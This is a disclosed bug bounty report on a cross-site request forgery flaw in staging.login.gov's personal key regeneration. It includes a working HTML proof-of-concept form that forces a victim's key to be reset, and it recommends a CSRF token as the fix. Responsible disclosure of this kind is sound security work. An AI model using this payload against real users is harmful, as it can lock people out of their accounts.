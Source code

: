 # CSRF in generating a new Personal Key

## Report Details
- **Report ID**: 263512
- **URL**: https://hackerone.com/reports/263512
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-08-26T05:40:08.032Z
- **Disclosed**: 2017-11-17T17:37:14.865Z

## Reporter
- **Username**: streaak
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
Hello team,
I would like to report a CSRF which would allow an attacker to change a user's personal key.

**Vulnerable URL-**
staging.login.gov

**POC-**

Use the following HTML form for performing the CSRF attack-

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://staging.login.gov/manage/personal_key">
      <input type="hidden" name="resend" value="true" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

This will redirect you to https://staging.login.gov/manage/personal_key?resend=true and we can use the key on the screen to login as the old key will be rendered invalid.

PS- The user doesn't have to click on continue on the above page. The key would be changed either way. You can logout and login and test the new key and you will be successfully logged into the account.

**IMPACT-**
This will pretty much deny a user to login to his system who has "his device stolen or accounts hacked" as mentioned by your policy.

**FIX-**
Add a CSRF token while submitting the form.

Let me know if you need anything else.

Best regards,
Streaak2





## Attachments
No attachments
